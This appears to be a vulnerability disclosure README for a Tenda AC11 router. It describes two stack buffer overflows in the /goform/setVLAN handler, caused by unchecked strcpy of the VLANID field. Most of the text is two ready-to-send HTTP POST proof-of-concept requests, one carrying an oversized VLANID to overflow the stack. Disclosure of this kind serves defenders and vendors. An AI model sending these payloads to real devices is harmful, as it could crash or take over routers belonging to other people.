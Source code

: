 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setVLAN` page which influence the lastest version routerOS(RTOS, This is system different from linux system)[AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
In the page `/gofrom/setVLAN` have two stack buffer overflow vulnerability.

1. It isn't limit our input when we input `VLANArea` in `v8` and `VLANID` in `v9`.
2. if `v8` is equal to `1`,`v9` copy to `v14` and jump to LABEL_6
3. In LABEL_6, `v14` will copy to a stack value `v40` by using `strcpy(v40, v14);`.strcpy couldn't limit copy length ,so wo can make stack buffer overflow in `v40`
4. if `v8` is equal to `2`,`v9` will copy to a stack value `v37` by using `strcpy(v37, v9);`,so wo can also make stack buffer overflow in `v37`
![](./1.png)

## poc 

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=1&VLANID=aaaaaaaa&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```

```
POST /goform/setVLAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb&VLANSelect=1&IPTVEn=true&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```